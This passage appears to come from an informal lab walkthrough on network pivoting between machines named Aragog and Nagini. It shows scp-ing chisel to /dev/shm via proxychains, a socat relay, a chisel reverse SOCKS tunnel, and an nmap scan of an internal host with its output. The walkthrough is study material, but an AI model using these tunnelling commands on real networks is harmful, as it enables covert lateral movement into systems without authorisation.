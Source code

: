 now you have to play with tunnels in order to set the conection successfully 
for that you need to 
transfer chisel to nagini machine because it will work as intermediary

```bash
❯ proxychains scp  chisel_1.8.1_linux_amd64 root@10.10.0.137:/dev/shm/chisel
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:8888-<--timeout
|D-chain|-<>-127.0.0.1:1080-<><>-10.10.0.137:22-<><>-OK
chisel_1.8.1_linux_amd64                                                                                                                                                                                              100% 8188KB  18.8MB/s   00:00    
```

no we have to execute chisel in aragog machine in order to stay listening to the output of 10.10.137 (nagini) and send it to our personal desktop this way works with input and output

```bash
root@Aragog:/dev/shm# ./socat TCP-LISTEN:6666,fork TCP:192.168.100.53:1234 
```


and now from nagini all the output that comes from 192.168.100.130 we have to redirect to the tunnel that we made 

```bash 
^Croot@Nagini:/dev/shm# ./chisel client 10.10.0.136:6666 R:8888:socks
```
let's enumerate 192.168.100.130 from pur personal destop in order to verify if all these works 
```bash
❯ proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n 192.168.100.130 2>/dev/null | grep  -vE "timeout"
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 00:59 CST
Initiating Connect Scan at 00:59
Scanning 192.168.100.130 [500 ports]
Discovered open port 21/tcp on 192.168.100.130
Discovered open port 22/tcp on 192.168.100.130
Discovered open port 80/tcp on 192.168.100.130
Connect Scan Timing: About 45.60% done; ETC: 01:00 (0:00:37 remaining)
Discovered open port 2222/tcp on 192.168.100.130
Completed Connect Scan at 01:00, 66.03s elapsed (500 total ports)
Nmap scan report for 192.168.100.130
Host is up (0.13s latency).
Not shown: 496 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 66.07 seconds
```
it  works xD agradecido con el de arriba



Happy hacking !
